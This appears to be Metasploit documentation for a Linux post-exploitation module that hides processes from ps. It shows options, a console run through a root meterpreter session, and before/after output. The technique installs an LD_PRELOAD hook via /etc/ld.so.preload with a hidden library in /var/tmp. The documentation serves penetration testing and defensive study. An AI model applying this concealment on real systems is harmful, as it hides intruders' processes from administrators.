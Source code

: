 ## Description

This module will hide a process with LD_PRELOAD according to command arguments or process name.


## Options

 **CMDLINE**

 The cmdline or process name to filter.

 **LIBPATH**

The shared object library file path. Use `/var/tmp/` as default directory.



## Verification Steps

1. get session on target
2. `use post/linux/manage/hide_process`
3. `set cmdline <cmdline>`
4. `run`

## Scenarios

### Tested on Kali Linux Rolling
```
msf5 post(linux/manage/hide_process) > options

Module options (post/linux/manage/hide_process):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   CMDLINE  evil.apk                yes       The cmdline to filter.
   LIBPATH  /var/tmp/.YzfidldoeyHd  yes       The shared object library file path
   SESSION  5                       yes       The session to run this module on.

msf5 post(linux/manage/hide_process) > sessions -i
sessions -i 1  sessions -i 5
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.103
OS           : Kali kali-rolling (Linux 4.17.0-kali1-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > bg
[*] Backgrounding session 5...
msf5 post(linux/manage/hide_process) > run

[!] SESSION may not be compatible with this module.
[*] Checking system requirement...
[+] All requirement is good.
[*] Writing c code to /tmp/TbkAYnG.c
[*] Compile c code to /var/tmp/.YzfidldoeyHd as a shared object library file
[*] Installing the process hider hook...
[+] Install the hook to hide process successful!
[+] To uninstall the hook, run command below in meterpreter.
execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
rm /var/tmp/.YzfidldoeyHd
[*] Post module execution completed


```

## Before run the module
```
# root @ kali in /tmp [6:13:21] 
$ ps -ef | grep -v grep |grep evil.apk  
root      4809 10240  0 06:12 pts/2    00:00:00 vim evil.apk

```

## After 
```
# root @ kali in /tmp [6:15:30] 
$ ps -ef | grep -v grep |grep evil.apk  

```
Bingo! This process wouldn't show by `ps` command.

## Clean it
```
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
Process 4907 created.
meterpreter > rm /var/tmp/.YzfidldoeyHd
meterpreter >
```
Everything is back to normal.
